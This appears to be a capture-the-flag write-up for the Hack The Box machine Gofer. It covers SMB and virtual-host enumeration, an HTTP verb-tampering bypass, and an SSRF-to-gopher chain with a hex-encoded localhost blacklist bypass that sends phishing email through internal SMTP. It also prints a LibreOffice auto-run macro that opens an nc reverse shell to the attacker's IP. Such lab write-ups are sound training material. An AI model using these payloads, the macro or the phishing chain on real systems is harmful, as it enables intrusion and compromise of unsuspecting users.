








[Home](/) \| [Writeups](/writeups/)

# HTB: Gofer (Part 1)

Gofer is a hard difficulty Linux machine on [Hack The Box](https://.hackthebox.com) involving the exploitation of HTTP verb tampering and chaining SSRF with Gopher protocol to send a phishing e-mail and compromise the user with malicious LibreOffice document. This writeup is divided into 2 parts. First part contains the web exploitation part of the machine and phishing to get the user and the second part will contain binary exploitation for privilege escalation.



## Nmap

As with every machine, let's start with an Nmap scan. I use my own Rust wrapper which you can find [here](https://github.com/qur1us/rustmap). Let's look at the results.

```bash
Nmap scan report for 10.129.4.164
Host is up (0.038s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 aa:25:82:6e:b8:04:b6:a9:a9:5e:1a:91:f0:94:51:dd (RSA)
|   256 18:21:ba:a7:dc:e4:4f:60:d7:81:03:9a:5d:c2:e5:96 (ECDSA)
|_  256 a4:2d:0d:45:13:2a:9e:7f:86:7a:f6:f7:78:bc:42:d9 (ED25519)
25/tcp  filtered smtp
80/tcp  open  http        Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to http://gofer.htb/
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: Host: gofer.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2023-07-29T20:12:43
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: GOFER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

Since SMB is a bit unusual on Linux machines, let's begin with SMB enumeration. Although, we might want to keep in mind that the SMTP port is filtered, thus probably behind a firewall.

## SMB

We can begin by trying to list shares with null authentication.

```bash
crackmapexec smb 10.129.4.164 -u '' -p '' --shares
SMB         10.129.4.164    445    GOFER            [*] Windows 6.1 Build 0 (name:GOFER) (domain:htb) (signing:False) (SMBv1:False)
SMB         10.129.4.164    445    GOFER            [+] htb\: 
SMB         10.129.4.164    445    GOFER            [+] Enumerated shares
SMB         10.129.4.164    445    GOFER            Share           Permissions     Remark
SMB         10.129.4.164    445    GOFER            -----           -----------     ------
SMB         10.129.4.164    445    GOFER            print$                          Printer Drivers
SMB         10.129.4.164    445    GOFER            shares          READ            
SMB         10.129.4.164    445    GOFER            IPC$                            IPC Service (Samba 4.13.13-Debian)

```

This has worked and we have read permissions on a share called `shares`. Let's take a look at it.

```bash
smbclient -N \\\\10.129.4.164\\shares

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Oct 28 21:32:08 2022
  ..                                  D        0  Fri Apr 28 13:59:34 2023
  .backup                            DH        0  Thu Apr 27 14:49:32 2023

		5061888 blocks of size 1024. 1534456 blocks available
smb: \> cd .backup\
smb: \.backup\> dir
  .                                   D        0  Thu Apr 27 14:49:32 2023
  ..                                  D        0  Fri Oct 28 21:32:08 2022
  mail                                N     1101  Thu Apr 27 14:49:32 2023

		5061888 blocks of size 1024. 1534456 blocks available
smb: \.backup\> get mail 
getting file \.backup\mail of size 1101 as mail (7.0 KiloBytes/sec) (average 7.0 KiloBytes/sec)
```

By examining the share we found an e-mail backup.

```http
From jdavis@gofer.htb  Fri Oct 28 20:29:30 2022
Return-Path: <jdavis@gofer.htb>
X-Original-To: tbuckley@gofer.htb
Delivered-To: tbuckley@gofer.htb
Received: from gofer.htb (localhost [127.0.0.1])
        by gofer.htb (Postfix) with SMTP id C8F7461827
        for <tbuckley@gofer.htb>; Fri, 28 Oct 2022 20:28:43 +0100 (BST)
Subject:Important to read!
Message-Id: <20221028192857.C8F7461827@gofer.htb>
Date: Fri, 28 Oct 2022 20:28:43 +0100 (BST)
From: jdavis@gofer.htb

Hello guys,

Our dear Jocelyn received another phishing attempt last week and his habit of clicking on links without paying much attention may be problematic one day. That's why from now on, I've decided that important documents will only be sent internally, by mail, which should greatly limit the risks. If possible, use an .odt format, as documents saved in Office Word are not always well interpreted by Libreoffice.

PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>

```

The e-mail is packed with quite Important things:
1. Jocelyn tends to recklessly click on links
2. They send their e-mails only Internally
3. They use LibreOffice (.odt)
4. Tom works on a proxy that is secured via `<Limit>`

That's a lot of useful information for us. We can slowly start to see the attack path that lies before us. For now, let's continue with enumerating HTTP. Keep in mind that we are looking for a proxy that is secured with `<Limit>`.

## HTTP


We are welcomed with a simple web page where no links seem to be working. Not even the e-mail form at the bottom of the page. Since we do not have much to do here, let's continue with fuzzing.

### Fuzzing

```bash
➜  Gofer ffuf -u http://gofer.htb/ -H 'Host: FUZZ.gofer.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 20

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://gofer.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.gofer.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 20
________________________________________________

[Status: 401, Size: 462, Words: 42, Lines: 15, Duration: 38ms]
    * FUZZ: proxy

```

We have found one virtual host `proxy`. Let's add it to our host file. As we can remember from the e-mail, this endpoint is "secured" with `<Limit>`.

## proxy.gofer.htb



Right after hitting the endpoint we are prompted to enter the credentials. Unfortunately, we do not posses any set of credentials as of now, so it might be a good idea to search for some or to try to bypass the restriction.

As mentioned above the `<Limit>` security boundary gives us a good hint on what to do next. Since from the `nmap` scan we know the web server is running `Apache/2.4.56`, we can search for `<Limit>` in the Apache documentation.



As expected the `<Limit>` restricts access to the endpoint via HTTP method. This is highly susceptible to HTTP verb tampering.

### HTTP verb tampering

We can use HTTP verb tampering to bypass the access restrictions and gain access to the `http://proxy.gofer.htb/index.php` endpoint.

We can see that the GET method is simply rejected with 401 Unauthorized.

```bash
➜  Gofer curl -i http://proxy.gofer.htb/index.php
HTTP/1.1 401 Unauthorized
Date: Sun, 30 Jul 2023 15:52:35 GMT
Server: Apache/2.4.56 (Debian)
Content-Length: 462
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.56 (Debian) Server at proxy.gofer.htb Port 80</address>
</body></html>
```

However, if we change the HTTP method to `POST`, we can get around that restriction!

```bash
➜  Gofer curl -i -X POST http://proxy.gofer.htb/index.php                               
HTTP/1.1 200 OK
Date: Sun, 30 Jul 2023 15:59:31 GMT
Server: Apache/2.4.56 (Debian)
Vary: Accept-Encoding
Content-Length: 81
Content-Type: text/html; charset=UTF-8

<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

The endpoint asks us to use URL parameter. We can try to get a callback to our web server.



We can see that we triggered a Server-side Request Forgery (SSRF) vulnerability! Finally, we get something serious here. Let's recollect our findings and try to think how to chain them together.

## Let's go phishing! (Part 1)

What do we have?
1. User Jocelyn who tends to recklessly click on links
2. The company sends their e-mails only Internally (port 25 behind firewall)
3. They use LibreOffice (.odt)
4. Server-side Request Forgery (SSRF) vulnerability

What we can do next is to try to use `gopher` protocol to send malicious phishing e-mail to Jocelyn via the SSRF vulnerability! Well, as the heading says, Let's go phishing!

### Gopher SSRF

The Gopher protocol is a simple text-based protocol used for organizing and retrieving information on the internet. It has capabilities of interacting with various services and opened sockets. We can even connect to SMTP and send e-mails!

Let's begin with something simple. As Jocelyn kindly clicks on links in e-mails, let's see if we can get a callback to our web server.

First, we have to create the malicious payload.

```bash
gopher://127.0.0.1:25/xHELO gofer.htb
MAIL FROM:<hacker@site.com>
RCPT TO:<jhudson@gofer.htb>
DATA
From: [Hacker] <hacker@site.com>
To: <jhudson@gofer.htb>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: AH AH AH

http://10.10.14.37/hello_from_jocelyn


.
QUIT

```

We have to double URL encode and send this via `curl`.

```bash
curl -i -X POST 'http://proxy.gofer.htb/index.php?url=gopher://127.0.0.1:25/xHELO%2520gofer.htb%250AMAIL%2520FROM:%253Chacker@site.com%253E%250ARCPT%2520TO:%253Cjhudson@gofer.htb%253E%250ADATA%250AFrom:%2520%255BHacker%255D%2520%253Chacker@site.com%253E%250ATo:%2520%253Cjhudson@gofer.htb%253E%250ADate:%2520Tue,%252015%2520Sep%25202017%252017:20:26%2520-0400%250ASubject:%2520AH%2520AH%2520AH%250A%250Ahttp://10.10.14.37/hello_from_jocelyn%250A%250A%250A.%250AQUIT%250d%250a'
```

Uups! The payload did not get through. There is a blacklist on IP addresses like 127.0.0.1 or DNS names like localhost. In order to continue, we have to bypass the blacklist!

This was easier than expected and we could bypass this blacklist with HEX encoding of the 127.0.0.1 IP address.

We can represent the localhost IP address like this: `0x7f000001`

Now, when we send the payload, we can see that we were successful.

```bash
curl -i -X POST 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM:%3Chacker@site.com%3E%250d%250aRCPT%20TO:%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom:%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo:%20%3Cjhudson@gofer.htb%3E%250d%250aDate:%20Tue,%2015%20Sep%202017%2017:20:26%20-0400%250d%250aSubject:%20AH%20AH%20AH%250d%250a%250d%250ahttp://10.10.14.37/hello_from_jocelyn%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a' 
HTTP/1.1 200 OK
Date: Sun, 30 Jul 2023 16:34:56 GMT
Server: Apache/2.4.56 (Debian)
Vary: Accept-Encoding
Content-Length: 205
Content-Type: text/html; charset=UTF-8

<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as C2AA18145
221 2.0.0 Bye
1%                                    
```

After a while, Jocelyn was kind enough to click our link and we received a callback to our web server.



## Let's go phishing! (Part 2)

Now, when we have our proof-of-concept exploit functional, it's time to really exploit the Jocelyn user. We have two options:
1. Malicious macro document
2. Some LibreOffice exploit

Let's try the most realistic scenario first. What we can do is to prepare a LibreOffice macro-enabled document that will contain a malicious macro that will execute code on the remote system and provide us with a reverse shell right after the user opened the malicious document.

### Final exploit

Here's what we are going to do:
1. Create malicious LibreOffice document
2. SSRF
3. Send phishing email with link to download a malicious ODT file: `http://<ATTACKER IP>/output.odt`
4. Wait

#### Step 1

The macros are written in Visual Basic. The following snippet will execute a shell command specified in the `sCmd` variable.

```vb
Sub Main()
    Dim sCmd As String
    Dim iRetVal As Integer
    
    sCmd = "nc 10.10.14.37 443 -e /bin/bash"
    
    ' Execute the system command
    iRetVal = Shell(sCmd, 1)
End Sub
```



After the macro was created, we had to configure the document to auto run the malicious macro when someone opens the document. It can be done by customizing the `Open Document` event.



#### Steps 2 & 3

To execute the payload we can again execute our SSRF > Gopher chain using curl.

```bash
curl -i -X POST 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM:%3Chacker@site.com%3E%250d%250aRCPT%20TO:%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom:%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo:%20%3Cjhudson@gofer.htb%3E%250d%250aDate:%20Tue,%2015%20Sep%202017%2017:20:26%20-0400%250d%250aSubject:%20AH%20AH%20AH%250d%250a%250d%250ahttp://10.10.14.37/output.odt%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a'
```



After a while, Jocelyn was kind again and clicked on our malicious link and we received a reverse shell on the target system compromising Jocelyn's account.